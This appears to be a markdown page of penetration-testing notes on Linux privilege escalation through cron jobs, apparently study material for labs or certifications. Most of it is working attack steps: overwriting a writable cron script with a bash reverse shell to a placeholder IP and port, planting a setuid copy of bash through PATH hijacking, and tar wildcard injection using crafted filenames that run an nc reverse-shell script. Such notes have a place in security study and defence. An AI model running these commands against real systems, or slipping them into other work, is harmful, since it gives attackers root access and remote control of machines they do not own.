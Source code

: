 ```yaml
---
title: Cron Jobs
parent: Method
layout: default
nav_order: 3
---
```


User crontab common location: `/var/spool/cron/` or `/var/spool/cron/crontabs/`

System wide crontab location: `/etc/crontab`


## File permissions
1. Check the crontab file:\
   `cat /etc/crontab`
2. If there is any script locate it:\
   `locate overwrite.sh`
3. Check for the permission:\
   `ls -l /usr/local/bin/overwrite.sh`
4. If can write, modify the file to be as file below.
5. Run `nc` and wait for the listener to catch.

xx.sh
```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

## PATH Environment Variables
1. The crontab file has path set (default is `/usr/bin:/bin`, meaning look in `/usr/bin` first before look in `/bin`).
2. If you run `cat /etc/crontab` and find any script that don't use absolute path, can try to replace the script by creating a script file listed in PATH. (for eg if `PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`, can try create at `/home/user`) with the content below.
3. Ensure the script you created is executable (`chmod +x /home/user/xx.sh`)
4. Wait for the cronjob to run, and execute with -p to retain effective id:\
   `/tmp/rootbash -p`

xx.sh
```
#!/bin/bash
​
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

## Wildcard & Filenames
1. When use wildcard(`*`), will list out all file/folder name, space separated. For eg if you use `echo *` in home directory, probably will see results of `echo Desktop Documents...` (result: `Desktop Documents...`)
2. This can be abused because we can set complex options, like `--option=key=value` as a filename.
3. If you see in `/etc/crontab` that points to a script, and that script contains wildcard(`*`), potentially can abuse.
4. For example there is a tar wildcard in the compress.sh attached below, running in /home/user directory.
5. Check gtfobins for tar (https://gtfobins.github.io/gtfobins/tar/) and notice that tar can break out by setting some options (`--checkpoint=1 --checkpoint-action=exec=/bin/sh`)
6. Use default linux reverse shell. Create a bash file under /home/user(eg shell.sh):\
   `mkfifo /tmp/bzxltd; nc IP PORT 0</tmp/bzxltd | /bin/sh >/tmp/bzxltd 2>&1; rm /tmp/bzxltd`
7. Create the file below under /home/user (or you can use `echo "" >> filename`):\
   `touch ./--checkpoint=1`
   `touch ./"--checkpoint-action=exec=sh shell.sh"`
8. Wait for the cron job to run.